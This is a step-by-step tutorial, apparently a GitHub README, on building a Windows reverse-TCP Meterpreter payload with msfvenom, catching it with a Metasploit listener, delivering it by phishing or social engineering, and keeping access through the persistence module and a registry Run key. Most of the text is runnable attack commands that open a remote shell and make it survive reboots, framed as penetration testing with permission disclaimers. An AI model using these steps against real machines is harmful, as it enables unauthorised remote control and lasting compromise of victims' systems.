 # Procedure to Create Payloads in Metasploit and Maintain Persistence

This guide will walk you through the process of creating payloads in Metasploit and maintaining persistence on a target machine. **Make sure you have explicit permission** before performing any penetration testing.

---

## Prerequisites

- Kali Linux or a similar penetration testing distribution.
- Metasploit Framework installed.
- A target machine with permission for testing.
- Basic knowledge of Metasploit and networking.

---

## Step 1: Create a Payload

1. Open a terminal on your Kali Linux machine.
2. Use `msfvenom` to create a reverse TCP Meterpreter payload:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP_Address> LPORT=4444 -f exe -o payload.exe
   ```

- `LHOST=<Your_IP_Address>`: Replace this with your Kali Linux machine’s IP address. This is the IP address that the target machine will connect to once the payload is executed.
  
- `LPORT=4444`: The port number that Metasploit will listen on for incoming connections from the target machine.
  
- `-f exe`: Specifies the output format as `.exe` (for Windows). This creates an executable file that can be run on the target machine.
  
- `-o payload.exe`: The name of the output file. This is the executable file that will be created, which you will deliver to the target machine.

After running this command, the `payload.exe` file will be generated, and this is the file that will be delivered to the target system for execution.
## Step 2: Set Up the Listener in Metasploit
Launch the Metasploit console:

```bash
msfconsole
```
In Metasploit, use the multi/handler exploit to handle the incoming connection:
```bash
use exploit/multi/handler
```
Set the payload type to the one you created:

```bash
set payload windows/meterpreter/reverse_tcp
```
Set LHOST and LPORT to match the values used when generating the payload:

```bash
set LHOST <Your_IP_Address>
set LPORT 4444
```
Start the listener:
```bash
exploit
```
Metasploit will now be listening for a connection from the target machine.
## Step 3: Deliver the Payload to the Target
To execute the payload on the target machine, you need to deliver the payload.exe file. This can be done through methods such as:

- Social engineering (e.g., convincing the user to run the file).
- Exploiting an existing vulnerability to upload and execute the payload.
- Phishing emails or malicious attachments.
- Once the target executes the payload, a Meterpreter session will be opened on your attacking machine.
## Step 4: Maintain Persistence
Persistence ensures that you retain access to the target system even after a reboot or logoff.

### Option 1: Use the Persistence Module in Metasploit
1. Background the current Meterpreter session:
```bash
background
```
2. Use the persistence post-exploitation module:
```bash
use post/windows/manage/persistence
```
3. Set the session ID (replace <Session_ID> with the active session number):
```bash
set SESSION <Session_ID>
set LHOST <Your_IP_Address>
set LPORT 4444
```
4. Run the persistence script:
```bash
run
```
This will ensure that the payload runs every time the target machine reboots or a user logs in.
### Option 2: Manually Add Persistence Using the Windows Registry
You can also manually add persistence by modifying the Windows registry to automatically run the ``` payload```.

In the Meterpreter session, execute the following command:
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyPayload" /t REG_SZ /d "C:\path\to\payload.exe" /f
```
This will make sure the payload executes every time the user logs in to the system.
## Step 5: Verify Persistence
To verify persistence, reboot the target machine. After the system restarts, the payload should automatically execute and re-establish the Meterpreter session.
# Conclusion

In this guide, we have demonstrated the process of creating payloads using Metasploit and establishing persistence on a target machine. By using Metasploit's `msfvenom` tool, we created a reverse TCP payload, and through the use of the `multi/handler` exploit, we set up a listener to catch incoming connections from the payload. Additionally, we discussed methods for maintaining persistence using Metasploit's persistence module, ensuring continued access to the compromised system.

It's essential to use these techniques ethically and responsibly. Always have explicit permission from the system owner before conducting penetration tests. Unauthorized use of these tools can lead to legal consequences and violations of ethical standards.



